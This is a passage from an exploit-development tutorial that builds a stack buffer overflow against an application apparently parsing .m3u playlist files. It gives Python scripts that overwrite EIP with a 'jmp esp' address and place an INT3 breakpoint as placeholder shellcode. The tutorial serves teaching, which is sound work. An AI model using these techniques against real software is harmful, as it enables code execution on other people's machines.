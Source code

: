 ![bof](images/stack-overflow-19-27.png)

You may select any of the modules provided that the jump address does not begin with `0`. Also, be sure to select the `jmp esp` instruction, as an equivalent one may not perform identically.

![bof](images/stack-overflow-19-31.png)

Now, let's determine if this address is valid. First, let's add it to the exploit while keeping endianness in mind. Therefore, the address should be written in reverse order.
`0x55929d6e` = `\x6e\x9d\x92\x55`:

```python
buffer = "http://"
buffer += "A" * 17417
buffer += "\x6e\x9d\x92\x55" # will become EIP 0x55929d6e
buffer += "C" * 600

f = open("exploit.m3u", "w")
f.write(buffer)
f.close()
```

If we jump to the `C`-buffer, we must find a way to immediately halt the execution.

`C`, which is represented by `0x43` in ASCII, is also a valid opcode for `INC EBX`. If we jump to a series of `INC EBX` statements, they will be executed, resulting in a crash.

To prevent such an issue after jumping to `ESP`, let's insert some code that pauses the execution and notifies us that everything is functioning as expected.

For this purpose, the `INT3` (Breakpoint) instruction will be ideal. Its operand code is `xcc`.

Let's insert the breakpoint instruction just before the `C`- buffer. We will also regenerate an exploit file and restart the application within the debugger:

```python
shellcode = "\xcc"

buffer = "http://"
buffer += "A" * 17417
buffer += "\x6e\x9d\x92\x55" # will become EIP 0x55929d6e
buffer += shellcode # breakpoint
buffer += "C" * 600

f = open("exploit.m3u", "w")
f.write(buffer)
f.close()
```
